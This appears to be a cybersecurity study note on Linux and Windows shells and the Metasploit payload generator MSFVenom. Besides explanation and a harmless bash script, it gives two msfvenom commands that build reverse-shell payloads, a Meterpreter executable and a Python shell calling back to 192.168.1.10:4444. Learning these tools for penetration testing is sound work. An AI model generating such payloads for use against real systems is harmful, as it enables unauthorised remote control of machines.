 # Shells (Linux, Windows, MSFVenom)


# 👉 Overview

---

### 👀 What ?

> Shells are a user interface for access to an operating system's services. In the world of cybersecurity, they are often used as a tool for remote access to a system. There are various types of shells like Linux shells (bash, sh), Windows shells (cmd, PowerShell), and tools like MSFVenom that can generate shellcode for various purposes.
> 

### 🧐 Why ?

> Understanding shells is crucial as they are fundamental to operating systems. For cybersecurity professionals, they are a tool for penetration testing, vulnerability assessments, and exploit development. They provide an environment where commands can be executed, scripts can be run, and system resources can be managed. MSFVenom, for instance, is a potent tool that combines Msfpayload and Msfencode, enabling users to create and customize their shellcode.
> 

### ⛏️ How ?

> To use a shell, one must first open a terminal (command prompt in Windows). Commands can then be inputted directly. For example, to list all files in a directory in a Linux shell, the command 'ls' is used. In Windows shell, the equivalent is 'dir'. MSFVenom is a more advanced tool, and it can be used to generate shellcode for a variety of exploits. For example, to generate a simple Windows Meterpreter reverse shell, one could use the command 'msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP> LPORT=<Your Port> -f exe > shell.exe'.
> 

### ⏳ When ?

> Shells have been in use since the dawn of modern computing, with the first Unix shell (the Bourne shell) being released in 1979. Windows shell (cmd.exe) has been included with Microsoft Windows since its inception, and PowerShell was introduced in 2006. MSFVenom is a part of the Metasploit Framework, which has been a staple of penetration testing since its release in 2003.
> 

# ⚙️ Technical Explanations

---

Shells are an essential user interface providing access to operating system services, primarily through text-based inputs and outputs. They function as an interpreter, taking commands from the user and passing them to the operating system's kernel for execution. This interface allows users to initiate processes, manage files, and control other system resources.

Shells also have scripting capabilities, which makes them incredibly powerful for automating tasks. You can write sequences of commands (scripts) and execute them as a single entity, making repetitive tasks more efficient.

In the context of cybersecurity, shells take on a significant role. They are often used to gain remote access to a system during penetration testing or exploitations. A shellcode, a small piece of code used as the payload in software vulnerability exploitation, is typically designed to start a command shell on the compromised machine, giving the attacker control.

MSFVenom, a part of the Metasploit Framework, is a tool that generates shellcodes for various purposes. It combines Msfpayload and Msfencode, enabling users to create and customize their shellcodes. These shellcodes can be tailored to exploit specific vulnerabilities and can be used to achieve various outcomes, like creating a reverse shell for remote system control.

Understanding shells, their applications, and their potency in cybersecurity contexts is crucial for anyone working with operating systems or in the field of cybersecurity.

For instance, let's consider the Linux shell (bash). Here's a simple script that automates the task of creating a new directory and creating a file in it:

```bash
#!/bin/bash
# This is a comment. The line above makes sure the script is executed in bash
mkdir new_directory # creates a new directory named 'new_directory'
cd new_directory # changes the current directory to 'new_directory'
touch new_file.txt # creates a new file named 'new_file.txt' in the current directory
echo "Hello, World!" > new_file.txt # writes 'Hello, World!' into 'new_file.txt'

```

The script starts by creating a new directory using the `mkdir` command. It then navigates into that directory using the `cd` command. Following that, the `touch` command creates a new file, and the `echo` command writes a string into that file.

In the context of cybersecurity, let's look at MSFVenom. Here's an example of generating a Python reverse shell:

```bash
msfvenom -p cmd/unix/reverse_python LHOST=192.168.1.10 LPORT=4444 -f raw > shell.py

```

In this command, `-p cmd/unix/reverse_python` specifies the type of payload to generate, a reverse shell written in Python. `LHOST=192.168.1.10` and `LPORT=4444` specify the IP address and port for the reverse shell to connect back to. `-f raw` tells MSFVenom to output the shellcode in a raw format, and `> shell.py` directs this output into a Python file named '[shell.py](http://shell.py/)'. If this shellcode is run on a target machine, it will create a reverse shell that connects back to the attacker's machine at the specified IP and port.
